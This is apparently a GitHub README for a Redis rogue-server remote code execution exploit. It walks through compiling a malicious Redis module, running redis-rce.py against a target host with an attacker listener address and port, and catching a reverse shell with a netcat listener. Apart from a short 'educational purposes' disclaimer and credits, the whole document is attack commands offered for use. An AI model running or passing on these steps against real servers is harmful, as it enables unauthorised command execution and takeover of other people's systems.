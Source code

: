 # Redis Rouge Server Remote Code Execution
## Usage
- Compile module.so from https://github.com/binaryxploit/redis-module-load-cmd-exec
```bash
git clone https://github.com/binaryxploit/redis-module-load-cmd-exec.git
cd ./redis-module-load-cmd-exec
make
```
- Clone the repo and copy the module.so file
```bash
cd ../
git clone https://github.com/binaryxploit/redis-rouge-server-rce.git
cd redis-rouge-server-rce
cp ../redis-module-load-cmd-exec/module.so ./
```
- Expoit usage example
```bash
python3 redis-rce.py -r 192.168.121.69 -L 192.168.45.221 -P 8888 -f ./module.so
```
- Note: The exploit lets to choose [i]nteractive shell or [r]everse shell option
- If choose [r]everse shell option set up a listener using netcat to grab the shell
```bash
nc -nvlp 8888
```
-------
- This Exploit is an aggregation of below exploits made for understanding and educational purposes.
- Credits:
  - https://github.com/RedisLabsModules/RedisModulesSDK
  - https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
  - https://github.com/Ridter/redis-rce
  
